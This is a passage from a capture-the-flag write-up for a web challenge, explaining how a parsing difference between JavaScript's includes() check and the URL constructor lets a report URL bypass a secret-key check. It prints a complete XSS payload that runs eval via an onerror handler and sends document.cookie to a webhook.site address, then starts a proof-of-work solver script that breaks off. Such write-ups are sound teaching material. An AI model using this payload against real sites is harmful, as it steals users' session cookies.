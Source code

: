 - There was two checks on the place `url.host` should match the `CHALL_DOMAIN` which is `"sass.wwctf.com"` which we can easily pass as our report URL contains the chall domain but the first check verifies if our report url contains `CHALL_DOMAIN` and moves to the `secretKey` part,which we cant recover.

- So the idea is to abuse the parsing difference between the `includes` and `URL`? maybe?


![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/saas/parsing.jpg)

- The `URL constructor` will decode the value before constructing the url and `includes` just check it right away ! with the idea we can supply the below paylaod in the urltovisit to bypass the secretkey check.

>```https://saas.wwctf%2ecom/?html=PG1hdGg%2BPG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48aW1nL3NyYz14IG9uZXJyb3I9ImV2YWwoYCdgK1VSTCkiPg%3D%3D#';window.location='//webhook.site/4a1d0a64-9b41-4fa8-9b9d-2aeae9735076/p'+document.cookie```

```
solution.py
import hashlib
import time
from multiprocessing import Pool
import requests
import re


def find_nonce(args):
    message, nonce_start, nonce_end, prefix = args
    for nonce in range(nonce_start, nonce_end):
        combined = f'{message}{nonce}'.encode()
        hash_result = hashlib.sha256(combined).hexdigest()
        if hash_result.startswith(prefix):
            return nonce
    return None


def proof_of_work(message):
    prefix = '0'*6
    nonce = 0
    num_processes = 4  
    chunk_size = 1000000
    start_time = time.time()
    
```